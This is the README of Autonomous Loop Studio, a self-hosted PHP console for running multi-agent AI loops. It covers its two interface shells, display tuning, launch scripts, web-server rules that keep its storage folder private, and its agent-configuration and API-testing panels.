<!--
  Copyright M. Bryce Hudson 2026-2029 All Rights Reserved

  Unauthorized reproduction, distribution, or transmission of the work is prohibited without prior written permission, with exceptions for brief quotations and specific noncommercial uses under copyright law.

  BryceFromIndiana@gmail.com
-->

# 🧠 Autonomous Loop Studio

> ## A self-hosted, universal multi-agent AI console. Point it at **any** model, hand the agents **real tools**, and watch the loop run.

<!-- [](https://www.gnu.org/licenses/agpl-3.0) -->


[](https://deepwiki.com/MBHudson/Autonomous)




**☝️ That's Desktop 2026** — the new face of the studio: 💎 floating glass cards on an edge rail, 🗂️ Config that flies out of its own label, 💬 a chat you can drag wider or throw to the full screen, 🕸️ the map front and centre with its button group lifted into the header, and 🪶 panels that tuck away while you read a node. Pick it in **Config → Interface** — no reload, and nothing you had set is lost.

**🗂️ Classic is the default** — and it is the picture right below. Setup panel, chat and map/network panel side by side, nothing behind a rail, everything where it has always been.



**Both are the same app.** Same components, same store, same tools: Classic is **not** a legacy mode, and neither shell is missing a feature — Classic is simply the calmer, flatter way to see all of it at once. Narrow the window under 1025px and **either** one becomes the same slide-over drawer layout, so the phone experience is identical whichever you choose. 🔁

**Autonomous Loop Studio** (the "Router") is a single-folder PHP app — 🚫 no database, 🚫 no build step, 🚫 no external service. It runs on plain PHP (or Apache via XAMPP), keeps everything in JSON files, and drops a whole team of AI agents into your browser with a filesystem, a shell, the web, memory, a visual routing chart — and **MCP in both directions**.

> 🆕 **Recently added** — ♾️ an **always-on loop** with per-agent standing goals, spend caps, **hold/release** and a master kill switch · ❝ a **global pre-prompt** that **prepends or replaces** every agent's prompt, with a live toggle · 🧠 a **context assembler** sized to each model's *real* window · 🔧 **native tool calling** · 🌐 a **built-in browser** over CDP with a **domain block list** · 🕸️ **MCP servers and friends as live graph nodes** · 🧮 a **Resource Manager** so the 3D graph can rest · and a **security pass** that made every dangerous capability **opt-in**. 🛡️ · 🖥️ a **choice of shells** — Classic by default, Desktop 2026 on request · 🎛️ a **Config → Desktop card** that tunes the topography and the glass for a weak GPU, with **every knob still individually adjustable** · 📌 a **floor that stays put** · 🌫️ a **screen-space haze** that can no longer travel with the map

Made with 💙 by [MBHudson](https://github.com/mbhudson/)

---

## 🧭 Contents

Jump straight to a section — every heading on this page is also clickable.

**🚀 Start here**

- [✨ What's inside](#-whats-inside)
- [🖥️ Two interfaces, one switch](#️-two-interfaces-one-switch)
- [🎛️ Config → Desktop](#️-config--desktop--the-machine-room-card)
- [🚀 Quick start](#-quick-start)

**🧠 Using the studio**

- [🧠 Brain Lab](#-brain-lab)
- [🧪 API Lab](#-api-lab)
- [🔀 Routing chart](#-routing-chart)
- [🖼️ Images & vision](#️-images--vision)
- [🎙️ Voice & audio](#️-voice--audio)
- [⌨️ Slash commands](#️-slash-commands)
- [♾️ Always-On](#️-always-on--the-loop-that-runs-itself)
- [❝ Global pre-prompt override](#-global-pre-prompt-override--one-instruction-for-the-whole-fleet)
- [🧭 The apps notch](#-the-apps-notch--one-thumb-to-everything)
- [🧠 The context assembler](#-the-context-assembler--native-tool-calling)
- [🛠️ Tools agents can use](#️-tools-agents-can-use)
- [🧭 The provider harness](#-the-provider-harness)
- [🧠 Dynamic tools & the learned dialect](#-dynamic-tools--the-learned-dialect)
- [⏱️ Throttle / limiter / pacer](#️-throttle--limiter--pacer)
- [🔑 API pool](#-api-pool--rotate-your-keys)
- [📊 Metrics & 🔎 Run trace](#-metrics---run-trace)
- [🕸️ Network & topology](#️-network--topology)
- [🧮 Resource Manager](#-resource-manager--let-the-3d-graph-rest-)
- [💭 Thinking & reasoning](#-thinking--reasoning)
- [🧠 Memory](#-memory)
- [💾 Export & import](#-export--import)
- [🔁 Updates — download, verified, never auto-installed](#-updates--download-verified-never-auto-installed)

**🔐 Security & guardrails**

[🔐 overview](#-security--guardrails--safe-by-construction-️) · [🔑 token](#-1-the-front-door-is-locked--a-per-device-access-token) · [🚦 approvals](#-2-approvals--nothing-scary-happens-without-a-nod) · [🧾 allow/deny](#-3-allow--deny-lists--an-argv-level-bouncer) · [🧱 the jail](#-4-the-jail--a-fence-with-no-back-gate) · [🐚 no shell](#-5-no-shell-to-hijack) · [🧬 atomic edits](#-6-edits-are-atomic-or-they-dont-happen) · [🐙 git](#-7-git-runs-on-a-leash) · [🌐 SSRF](#-8-network-egress-is-fenced-ssrf-guardrails) · [🕵️ secrets](#️-9-secrets-never-appear-on-screen) · [🖼️ vision](#️-10-vision-is-safe-by-construction) · [🌐 browser gate](#-11-the-built-in-browser-is-gated-on-every-hop) · [🤝 MCP server](#-12-mcp-server--lending-tools-without-giving-away-the-house) · [🧷 injection](#-13-prompt-injection-posture) · [🚫 defaults](#-14-everything-dangerous-defaults-to-off-) · [🧯 fails closed](#-15-fails-closed-and-tells-the-truth) · [🗄️ storage](#️-16-storage-is-never-web-served--in-every-serving-mode) · [🧪 guard tests](#-17-the-guards-are-proven-not-assumed) · [🌐 no CORS](#-18-closed-by-default-in-the-browser-too)

**🔌 Integrations · 📱 Platform · 📚 Reference**

- [🔌 MCP client](#-mcp--connect-out-to-other-servers-client)
- [🖥️ MCP server](#️-mcp--let-others-connect-in-server)
- [🌐 Built-in browser](#-built-in-browser--you-watch-the-agents-drive)
- [📱 Android & mobile](#-android--mobile)
- [🧩 Architecture](#-architecture)
- [🧪 Tests](#-tests)
- [📋 Releasing a version](RELEASING.md)
- [🔗 API endpoints](#-api-endpoints)
- [🧯 Troubleshooting](#-troubleshooting)
- [📜 License](#-license)

---

## ✨ What's inside

| | |
|---|---|
| 🤖 **Any model, any provider** | OpenAI, OpenRouter, NVIDIA NIM, Anthropic, Google, Groq, DeepSeek, xAI, Mistral, Cerebras, Together, Perplexity, Ollama, LM Studio, vLLM… |
| 🧭 **Auto-fitting harness** | Detects each provider's API shape *and* tool dialect, and speaks it correctly |
| 🧠 **Brain Lab** | Every per-agent setting, locks, memory, files and custom tools in one rail |
| 🧪 **API Lab** | Paste a curl → get it in 10 languages → actually send it server-side |
| 🔀 **Routing chart** | Draw workflows: agents, loops, checkpoints, delays, parallel fan-out |
| 🛠️ **Real tools** | Files, shell, web, a code interpreter, git, editors, MCP |
| ⏱️ **Pacer / limiter** | Per-key rate limiting that knows each provider's free-tier ceiling |
| 📊 **Metrics + 🔎 trace** | Uptime, requests, tokens, budgets, and a live run timeline |
| 🧠 **Memory** | Private + collective long-term memory the agents actually use |
| 🔐 **Locked down** | Access token, approvals, allow/deny lists, jailed filesystem |
| 🔌 **MCP client + server** | Connect to other MCP servers, *or* let a friend connect to you |
| 🎨 **Themes** | Dark, Matrix, Cyberpunk |
| 🖼️ **Vision** | Attach images for vision-capable agents — the bytes never hit the server |
| 🎙️ **Voice** | 🎤 speech-to-text in, 🔊 spoken replies out, with per-agent pitch |
| ⌨️ **Slash commands** | `/CODE`, `/ROLE`, `/NAME`, `/ALL`, `/?` — address agents from the composer |
| 💾 **Export / import** | Take a session out, or back up and restore the whole state |
| 🧠 **Dynamic tools** | Teaches each model the environment it's really in — and learns the tool dialect that works |
| 🔑 **API pool** | Rotate a provider's extra keys after N requests; rest them on a 429 |
| 🌐 **Built-in browser** | A real Chrome/Edge you and the agents drive — watch, click, type, log in |
| ♾️ **Always-On loop** | Standing goals, auto re-prompted on a cadence — caps, hold/release, one master kill switch |
| ❝ **Global pre-prompt** | One instruction for every agent — **prepend** (default) or **replace**, toggled live |
| 🧠 **Context assembler** | History & tool output budgeted to each model's *real* window, with live compaction |
| 🧭 **Apps notch** | One thumb-tab to the Labs, the routing chart and the built-in browser |
| 🧮 **Resource Manager** | Optional pause / idle throttles + CPU/GPU gauges so the 3D graph can rest |
| 🕸️ **MCP on the graph** | Outgoing calls and incoming friends drawn as live nodes with editable access |
| 🖥️ **Two interfaces** | **Classic** (default) and **Desktop 2026** — one switch, same features, same store |
| 🎛️ **Desktop card** | Fog · bloom · floating floor · floor pin · map detail · frame cap · glass — tuned defaults, every knob exposed |
| 📱 **Mobile-first** | Built for the phone in your pocket |

---

## 🖥️ Two interfaces, one switch

Both shells are the same application: one store, one set of components, one feature list. `settings.interfaceMode` decides which decoration is worn, and it applies the moment you pick it in **Config → Interface** — no reload, no second install, and **no feature that exists in only one of them**.

| | 🗂️ **Classic** *(the default)* | 💎 **Desktop 2026** |
| --- | --- | --- |
| Layout | setup · chat · map, side by side | floating glass cards on an edge rail, map front-centre |
| Config | collapsible sections in the left panel | drawers that fly out of their label — and **retract back into it** as one motion |
| Chat | standard width | **440px** by default, drag the edge to widen, or throw it to the full screen |
| Panels | always where they are | optional **tuck-away** while a node's card is open |
| Glass | flat — no blur, no glow, no drift | frosted cards, border glow, ambient motion: every one adjustable, every one switchable off |
| Map controls | inside the map panel | lifted into the header, centred over the apps notch |
| Below 1025px | slide-over drawers | the same slide-over drawers |

```
                            DESKTOP 2026 — where things live
+-------------+---------------------------------------+-------------+
|   RAIL      |                  CHAT                 |     MAP     |
|             |                                       |             |
| sessions    | drag the edge to widen, or            | nodes,      |
| agents      | throw it to the full screen.          | beams,      |
| providers   | 440px by default.                     | fog, floor  |
| config ---> |                                       |             |
| mcp         |                                       | 3D / 2D     |
+-------------+---------------------------------------+-------------+
      ^ Config flies out of its label, then retracts back into it

  CLASSIC is the same app with all three panels always open:
  +--------------+-------------+---------------+
  |    SETUP     |    CHAT     |      MAP      |
  +--------------+-------------+---------------+
```

Two rules kept that honest:

- 🧩 **The choice is the only switch.** Nothing else forks. `ui/js/desktop2026.js` *decorates* the DOM the existing components already render — it owns no state and no feature — so a bug in the shell can never take one with it.
- 📱 **Narrow windows are untouched.** Under 1025px both shells resolve to the same slide-over drawer layout, which is why the phone view looks and behaves exactly as it always did.

---

## 🎛️ Config → Desktop — the machine-room card



The card is in **both** shells on purpose. Most of it is the map — fog, bloom, floor, frame rate, detail — so Classic gets it too. The rows that address the glass (chat background, blur, glow, ambient motion, the floating floor) stay **visible** in Classic with their saved values but are disabled there, because there is no glass to tune. Nothing is hidden and nothing is lost. 🧷

### 🧮 What each knob buys

| Knob | Fresh default | Relative GPU cost | What it does |
| --- | --- | --- | --- |
| 🌫️ **Glass blur** | **1px** | ██████████ **the big one** | `backdrop-filter` behind every card — a live canvas re-composited each frame |
| 🎚️ **Map detail** | **100%** | ███████ | internal resolution: 100 / 85 / 70 / 55 / 42% of the pixel-ratio cap |
| ✨ **Bloom glow** | **on** | ██████ | multi-pass blur halos on nodes and beams |
| 🟠 **Floating floor** | **on** | ████ | the big screen-blended polar grid layer over the canvas |
| 🎞️ **Frames per second** | **60** | ███ | hard cap on redraws (1–60) |
| 🟣 **Glow & border animation** | **100%** | ██ | the colour running around card borders |
| 🌀 **Ambient motion** | **100%** | ██ | background sweep, floor scan, the slow breathing |
| 🔄 **Slow auto-rotate** | **on** | █ | idle camera drift, 12s after you stop touching the map |
| 💬 **Chat background** | **4%** | ░ free | how much of the map shows through the chat |
| 📌 **Fix the floor in place** | **on** | ░ free | keeps the fallback grid still in the window |
| 🪶 **Tuck panels away** | **on** | ░ free | slides the rail and the chat aside while a node card is open |
| 🐢 **Performance mode** | **off** | — | one click: the cheap column, still editable |

Every row is a normal setting with its own control — the defaults above are defaults, not law. 🎛️

### ⚡ Performance mode is a preset, not another mode

One switch writes **the same nine settings the controls above already own** — blur 0, glow 0, motion 0, fog off, 30fps, 70% detail, bloom off, floating floor off, auto-rotate off — plus Resource Manager's **pause-when-covered** and **idle throttle**.

- 🧷 **It only ever tightens** — already at 24fps? it keeps 24, not 30.
- ↩️ **Switching it off gives your numbers back** — it restores the values it actually wrote, and a knob you moved by hand in the meantime keeps *your* value instead of being silently reverted.
- 🔍 **Every row stays visible**, so you can see exactly what it did and undo one part of it without undoing the rest.
- 🚫 **Nothing is removed, hidden or disabled** by the preset — which is the whole point of it being a preset.

### 🗺️ The topography, in detail

- 🌫️ **Background fog** — a haze that begins past the polar grid, under the graph, and reaches the top of the panel. Since **v336** it is drawn as the **scene background in screen space**, not as fog in the world: it cannot orbit, slide or zoom with the map, and it always fills the window. The checkbox turns it on and off; the scene still knows a third, older "full fog" mode internally (`topoFog: 0`), which the card deliberately does not offer.
- ✨ **Bloom** — the glow on every node and beam comes from one post-process pass, not from per-object tricks. Off keeps every emissive colour and drops the multi-pass blur.
- 🟠 **Floating floor** — the fixed polar grid belongs to the glass shell, so Classic always uses the cheap grid that lives inside the scene. In Desktop 2026 the DOM floor layer is the expensive one: a `150vmax` screen-blended element over the canvas.
- 📌 **Fix the floor in place** — the in-scene grid is part of the world, so orbiting carried it around and a low angle squashed it into a line. This holds it at the same spot in the window while orbiting, dragging and zooming all keep working. It only means something while the floating floor is **off**, so the row is disabled (not hidden, and keeping its value) whenever the floating floor is showing.
- 🎚️ **Map detail** — five explicit steps. **This is the one that used to degrade itself:** the map silently stepped its own resolution down whenever a frame ran long, which on a slower machine read as three or four visible “flashes” of the lines getting fuzzier a few seconds after load. It is manual now and stays exactly where you put it — and each step also holds the **composer** (bloom’s mip chain included) at that resolution, so the saving is real instead of a smaller final blit.
- 🎞️ **Frames per second** — a hard cap, 1 to 60, independent of everything else.
- 🔄 **Slow auto-rotate** — the drift resumes 12s after you stop. Off parks the view until you orbit it yourself, which is also what lets the scene — and everything composited over it — go genuinely idle.

> 💡 **On a low-powered machine:** glass blur to **0** (0 removes the backdrop layer entirely — `blur(0px)` would still cost one), bloom and the floating floor **off**, detail **70%**, cap **30fps** — or just click **Performance mode** and adjust from there. Every one of those is reversible. 🔁

### 🎚️ Defaults on a fresh install

| Section | Defaults |
| --- | --- |
| 🖥️ **Desktop** | tuck panels away **on** · chat background **4%** · glass blur **1px** · glow **100%** · ambient motion **100%** · background fog **on** · bloom **on** · floating floor **on** · floor **pinned** · auto-rotate **on** · map detail **100%** · **60fps** · performance mode **off** |
| 🧪 **Labs** | dynamic tools **on** · dialect memo **on** · API pool **on** · Keep Live when hidden **on** · built-in **Browser off** |
| 🧮 **Resource Manager** | all four switches **off** |

Saved settings always win: a fresh copy starts here, and an existing install keeps whatever you already chose until you move that control. 💾

---

## 🚀 Quick start

### 🪟 Windows — one click
- **`start.bat`** — the one-click launcher. First run installs XAMPP (Apache + PHP only, no MySQL), links this folder into `htdocs\router`, configures Apache, creates the access token, starts it and opens the app. Later runs just start Apache. Use this when several agents run at once: Apache is multi-threaded.
- **`start-php.bat`** — legacy built-in server (single-threaded). Fine for one agent at a time, or on machines where Apache cannot run.
- **`setup-xampp.bat`** — repair / advanced installer, used by `start.bat` automatically. Run it directly to reinstall XAMPP or pick another port (`setup-xampp.bat -Port 8090`).

 🧵**Autonomous' implementation of Apache / PHP is not single-threaded — and that is exactly the point.**
 Apache serves many requests at once (a pool of worker processes and threads), so a
 whole team of agents really does run in parallel. 
 **Autonomous ships the workaround!:** with **one click** installs XAMPP
 (Apache + PHP only), points it at a free port, loads the `mod_*` modules the
 app's `.htaccess` needs, links the folder and starts a genuinely concurrent
 server — **zero configuration, no database, nothing to hand-tune**. That is the
 mold this project breaks: a multithreaded local server, deployed in one click.
 (`start-php.bat` remains for the rare machine where Apache cannot run; it is the
 slow single-threaded fallback.)
> * *PHP's own built-in server is the opposite: `php -S` is a single process,
> so one streamed model reply holds the only slot for its entire duration while
> every other agent — and the browser's own state polling — queues behind it until
> the fetch dies with `NetworkError`. Windows PHP cannot fork, and the usual
> local Windows PHP setups
> either accept that limit or expect you to install and hand-edit Apache/FPM
> yourself. * *

### 🐧 Linux / macOS
```bash
./start.sh          # or ./start.sh 8090 for another port
```

### 🌍 Deploying on a real web host (Apache / nginx / IIS)

The one-folder design means `storage/` (the token, provider keys, every session
and the exec allow/deny lists) lives **inside the app folder**. That folder must
**never** be reachable over HTTP. Everything here is about keeping it that way. 🔒

The same rules also cover `tests/`: dev tooling that never runs at runtime, but
that nobody else needs to read either. The full grid — every path against every
serving mode, dotfiles and case variants included — is in
**Security & guardrails → §16**, and the rules are **tested by making the real
request** (§17). 🧪

- 🟡 **Apache** — `storage/.htaccess` and `tests/.htaccess` ship with the app and
  deny their whole folder (`Require all denied`, with a 2.2 fallback).
  `./setup-token.sh` **re-creates the storage one if a deploy lost it**. Just make
  sure `AllowOverride` lets `.htaccess` apply (the XAMPP installer sets this for
  you). The app root `.htaccess` also refuses `storage`, `logs`, `tmp`, `sessions`
  and `tests` as a path segment **at any depth** — a backup or archived copy of the
  app kept inside the web root brings its own `storage/` and `tests/`, and a copy
  made before `tests/.htaccess` existed would otherwise serve its test files in
  full. That guard is `RedirectMatch 403` (mod_alias), not a `RewriteRule`: a child
  `.htaccess` replaces its parent's per-directory rewrites, so a rewrite never sees
  the nested path, while mod_alias config merges normally.
- 🔴 **nginx** — **ignores `.htaccess` entirely**, so you *must* add the rules
  yourself. Ship the included **`nginx.example.conf`** into your `server{}` block
  (it denies `storage`, `logs`, `tmp`, `sessions` and `tests` as a path segment **at
  any depth** — so a backup or an archived copy of the app kept inside the web root
  cannot expose its own `config.json` — plus dotfiles and loose
  `.json/.log/.ini/.bak/.key/.pem` files), then `nginx -t && systemctl reload nginx`.
  A file whose *name* merely contains one of those words (`ui/js/storage.js`, `ui/js/tests.js`)
  is still served.
- 🔵 **IIS** — add a `web.config` at the app root that blocks the `storage` and
  `tests` segments, e.g.:
  ```xml
  <configuration><system.webServer><security><requestFiltering>
    <hiddenSegments>
      <add segment="storage" /><add segment="logs" /><add segment="tmp" />
      <add segment="sessions" /><add segment="tests" />
    </hiddenSegments>
  </requestFiltering></security></system.webServer></configuration>
  ```
- 🧪 **The PHP built-in server** (`start-php.bat` / `php serve.php`) already
  refuses `/storage`, `/logs`, `/tmp`, `/sessions`, `/tests` and dotfiles with a
  `403` — no config needed.
- ✅ **Verify it, don't assume it.** After any deploy, fetch
  `https://your-host/router/storage/config.json` **and**
  `https://your-host/router/tests/js/run.mjs` in a private window. You must get
  **403 / 404** for both — never JSON or source. If you do, stop and fix the rule
  above before doing anything else. 🚨

### 🔑 First run
The launchers install PHP + the extensions it needs (curl, openssl, mbstring, fileinfo, zip) without touching your own `php.ini`, bundle CA certs so HTTPS verifies, and print an **access token** once. Paste it into **Config → Access token** in the app — it saves on paste (there's no SAVE for that field, on purpose).

On Windows the app opens at `http://localhost:8080/router/` (Apache); on Linux/macOS it opens at `http://127.0.0.1:8080/`. If you miss the token, run `start.bat -Token` to print it again. Nothing ships with keys — add your own providers in the **Providers** tab.

---

## 🧠 Brain Lab



One rail for everything about the selected agent:

- **Identity** — name, label, role, provider, model, colour, active.
- **Prompts & Profiles** — the agent's system prompt, an always-append box, and reusable **direction profiles** you can attach and lock. (A fleet-wide override lives in the Agents-tab header — see *Global pre-prompt override*.)
- **Direction profiles** — reusable, lockable instructions you can **attach** and **append** to any agent, so a house style is defined once and shared.
- **Rate / Throttle** — per-agent pacing.
- **Approvals & Tools** — per-tool **allow / ask / deny**, plus a tool protocol picker that shows the **auto-detected** dialect.
- **Custom tools** — define your own, straight from the rail.
- **Sandbox** — a per-agent **file jail** and the file manager.
- **Memory** — private and collective notes, a Long-term-memory switch, and delete buttons (forgetting is a first-class action).
- **Always-On** — a standing goal, loop cadence, and a live RUNNING/HELD/IDLE badge. (Full walk-through in *Always-On — the loop that runs itself* below.)

Every setting has a 🔒 **lock**: unlocked agents follow the global value live; a lock pins the agent to its own value so a global change never moves it. 🔏

> 🗂️ **Config, tidied.** The Config tab is split into collapsible sections —
> **Interface · Limits & Budgets · Permissions · Labs · Resource Manager ·
> Throttle / Limiter · MCP Client · MCP Server**, with **Desktop** appended as its
> own card (see *Config → Desktop* above) — each carrying a live status badge on
> its header. It also **rescues numbers you typed but haven't Saved yet**, so
> switching tabs mid-edit never silently discards them.

> 🖥️ **Two interfaces, one switch.** **Interface** (the first control in Config)
> picks the shell — **Classic** by default, **Desktop 2026** on request. Both are
> the same app, the same features and the same store; the full comparison and the
> screenshots live in *Two interfaces, one switch* above. 🔁

---

## 🧪 API Lab



Opened from the 🧪 icon in the Agents-tab header.

- **Both directions**: `curl → request → 10 languages`, and `language → request → curl/bash/Python/TypeScript/OpenAI-SDK`.
- **Sending is server-side**, because the browser can't reach most providers (no CORS headers). The server runs the request and returns the status + body.
- **Guardrails**: http/https only; cloud-metadata addresses refused; key-shaped headers masked on screen (copy/send still use the real value); response bodies truncated.

---

## 🔀 Routing chart

Draw the flow instead of describing it.

**Nodes** — agent, parallel, merge, checkpoint, delay, loop, end.



**Loops** carry per-lap state, and **parallel fan-out** runs every ready node concurrently — the scheduler handles it.

